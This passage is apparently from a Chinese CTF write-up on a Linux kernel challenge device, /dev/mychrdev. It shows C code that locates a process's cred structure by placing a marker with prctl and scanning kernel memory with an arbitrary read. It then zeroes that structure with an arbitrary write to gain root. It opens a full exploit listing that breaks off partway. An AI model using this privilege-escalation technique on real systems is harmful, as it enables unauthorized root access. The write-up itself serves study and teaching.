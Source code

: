 ```
fd = open("/dev/mychrdev", O_WRONLY);
        int n = lseek(fd, pos, 0);

        *(size_t *)buf = -(long long)(addr &gt;&gt; 8);
        *(size_t *)(buf + 8) = 0x100000000000LL;
        n = write(fd, buf, 0x1000);
        // printf("%x\n\n", n);
        close(fd);

        memset(buf, 0, sizeof buf);
        fd = fd = open("/dev/mychrdev", O_RDONLY);
        n = lseek(fd, 0, 0);
        // printf("%d\n", n);
        n = read(fd, buf, 0x10000);
        // printf("%d\n\n", n);
        close(fd);
```

利用`char target[16] = "try2findmep4nda";prctl(PR_SET_NAME, target);`将`target`写进内核空间中，在内核空间中`target`的那个地址靠近`cred指针`，因此只要利用任意读爆破出它的地址就能够知道`cred`地址，利用任意写将`cred`中的前`0x28`个字节设置为0。这里可以参考[P4nda大神的博客](http://p4nda.top/2018/11/07/stringipc/)。

```
print_hex(buf,0x100);
    printf("\n");
    for(int i=0;i&lt;0x28;i++)
    `{`
        buf[i]=0;
    `}`
    print_hex(buf, 0x100);
```

最后实现提权。

[![](https://p1.ssl.qhimg.com/t017836e847736399f2.png)](https://p1.ssl.qhimg.com/t017836e847736399f2.png)



## EXP

```
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/prctl.h&gt;

size_t heap;

void id()
`{`
    printf("uid:%d\n", getuid());
`}`

void show()
`{`
    int fd = open("/dev/mychrdev", O_RDONLY);
    u_char buf[0x100];

    ioctl(fd, 0x1111, buf);
    u_char *p = buf;
```